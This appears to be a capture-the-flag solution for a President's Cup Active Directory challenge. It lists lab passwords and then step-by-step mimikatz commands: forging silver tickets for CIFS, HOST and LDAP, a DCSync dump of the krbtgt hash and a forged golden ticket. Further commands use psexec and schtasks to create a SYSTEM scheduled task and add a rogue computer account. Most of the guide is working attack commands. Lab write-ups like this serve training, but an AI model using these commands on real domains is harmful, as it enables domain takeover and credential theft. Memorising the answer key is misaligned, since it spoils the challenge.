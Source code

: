 # Going for Silver Solution

## Creds

- Win10
  - prescup:tartans@1
- Win DC
  - Administrator:scotty@#1

## Steps to Complete

- Query Guest Account
  - Windows: Get-ADUser Guest -Properties Comment
  - NOTE: This might take a couple of minutes to populate. We have to grab a new copy of the hash because it could update.
- Get SID on system
  - Windows: Get-ADUser Guest
- Create Silver Ticket for CIFS
  - When creating tickets, please avoid names being used in the Active Directory you're trying to attack
    - Names like Guest and rmudge in this case
  - For Windows:
    - mimikatz.exe "kerberos::golden /domain:prescup.local /sid:S-1-5-21-764921041-1137357192-4117662831 /rc4:{$TOKYO hash from guest comments} /user:{anything} /service:cifs /target:tokyo.prescup.local /ptt"
- Access the SYSVOL share drive to get the token
  - Windows:
    - dir \\tokyo.prescup.local\SYSVOL
- Create Silver Ticket for HOST
  - When creating tickets, please avoid names being used in the Active Directory you're trying to attack
    - Names like Guest and rmudge in this case
  - For Windows:
    - mimikatz.exe "kerberos::golden /domain:prescup.local /sid:S-1-5-21-764921041-1137357192-4117662831 /rc4:{$TOKYO hash from guest comments} /user:{anything} /service:host /target:tokyo.prescup.local /ptt"
- Create the scheduled task "PresidentsCup"
  - Windows
    - To create the task, we're going to use psexec which also needs the CIFS ticket
    - To create the CIFS ticket, reference the HOST silver ticket and replace HOST with CIFS
    - then run psexec \\tokyo.prescup.local cmd.exe
    - then, schtasks /create /S tokyo.prescup.local /SC weekly /RU "NT Authority\System" /TN "PresidentsCup" /TR "notepad.exe"
- Access the SYSVOL share drive to get the token
- Create Silver Ticket for LDAP
  - When creating tickets, please avoid names being used in the Active Directory you're trying to attack
    - Names like Guest and rmudge in this case
  - For Windows:
    - mimikatz.exe "kerberos::golden /domain:prescup.local /sid:S-1-5-21-764921041-1137357192-4117662831 /rc4:{$TOKYO hash from guest comments} /user:{anything} /service:ldap /target:tokyo.prescup.local /ptt"
    - mimikatz.exe "lsadump::dcsync /domain:prescup.local /dc:tokyo.prescup.local /user:krbtgt"
    - mimikatz.exe "kerberos::golden /domain:prescup.local /sid:S-1-5-21-764921041-1137357192-4117662831 /rc4:{krbtgt hash from lsadump} /user:{anything} /ptt"
    - NOTE: This will create a golden ticket.
- Create Computer Account "Win10-Fake"
  - Windows: New-ADComputer -Name "Win10-Fake"
- Access the SYSVOL share drive to get the token
